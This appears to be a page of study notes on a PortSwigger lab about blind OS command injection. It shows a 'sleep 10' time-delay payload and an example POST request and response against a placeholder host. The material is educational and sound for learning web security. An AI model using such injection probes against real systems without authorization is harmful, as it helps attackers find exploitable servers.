

## Understanding the Vulnerability

### Feedback Function and Shell Command Execution

The lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing user-supplied details. However, the output from the command is not returned in the response. This makes it challenging to determine if the command was successfully executed.

### Exploitation Technique: Time Delays

Since the output is not visible, we need to use a different technique to confirm the presence of the vulnerability. One effective method is to cause a time delay in the application's response. By injecting a command that causes a delay, we can infer that the command was executed.

### Example of Time Delay Command

Consider the following command injection payload:

```bash
sleep 10
```

This command causes the system to pause for 10 seconds before continuing. If we inject this command into the application, we should observe a 10-second delay in the response.

### Raw HTTP Request and Response

Let's look at a complete example of the HTTP request and response:

#### HTTP Request

```http
POST /feedback HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

cmd=sleep%2010
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 15 Aug 2023 12:00:00 GMT
Content-Type: text/html
Content-Length: 1024

<!DOCTYPE html>
<html>
<head>
<title>Feedback Submitted</title>
</head>
<body>
<h1>Your feedback has been submitted.</h1>
</body>
</html>
```

### Explanation of Headers

- **Content-Type**: Specifies the media type of the resource. Here, it is `text/html`.
- **Content-Length**: Indicates the size of the response body in bytes.
- **Date**: The date and time the response was generated.

### Sequence Diagram: Command Injection with Time Delay



---
<!-- nav -->
[[07-Understanding Time-Based OS Command Injection|Understanding Time-Based OS Command Injection]] | [[Web Security (PortSwigger)/10-OS Command Injection/03-Lab 2 Blind OS command injection with time delays/00-Overview|Overview]] | [[Web Security (PortSwigger)/10-OS Command Injection/03-Lab 2 Blind OS command injection with time delays/09-Conclusion|Conclusion]]
